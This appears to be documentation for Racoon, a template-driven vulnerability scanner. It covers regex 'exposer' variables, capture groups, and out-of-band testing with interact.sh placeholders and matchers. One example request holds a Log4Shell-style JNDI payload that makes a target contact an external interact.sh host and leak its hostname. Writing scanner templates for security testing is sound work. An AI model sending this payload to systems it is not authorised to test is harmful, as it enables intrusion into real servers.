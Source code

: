 ```
exposer:
  - type: regex
    name: windows_working_path
    interior: true
    group: 1
    regex:
      - ".?.?\\\\.*\\\\showenv"
```
In this example above, the value matched the regex field is going to be stored in the variable named *windows_working_path* and if user want to use that variable later, *interior: true* must be placed in exposers field.
In case of multiple result of matcher are returned, an optional variable *group* can be use to grab those value more accurately as same as getting the value of an element from the array.

```
group: 0 for full match (by default are not specified)
group: 1 for first match 
group: 2 for second match
...
And so on.
```

**OOB Testing**

---

Racoon supports using the interact.sh API to achieve OOB based vulnerability scanning.

**Interactsh Placeholder**

---

**{{interactsh-url}}** placeholder is used in both http and https in network requests.

Each request is provided each unique interact.sh URLs.

```
- request:
      - |
        GET /?x=${jndi:ldap://${hostName}.uri.{{interactsh-url}}/a} HTTP/1.1
        Host: {{Hostname}}
```

**Interactsh Matchers**

---

Interactsh interactions can be used with word, regex or helper matcher/exposer

> interactsh_protocol: dns, http or smtp. 
```
matchers:
  - type: word
    part: interactsh_protocol
    words:
      - "dns"
```

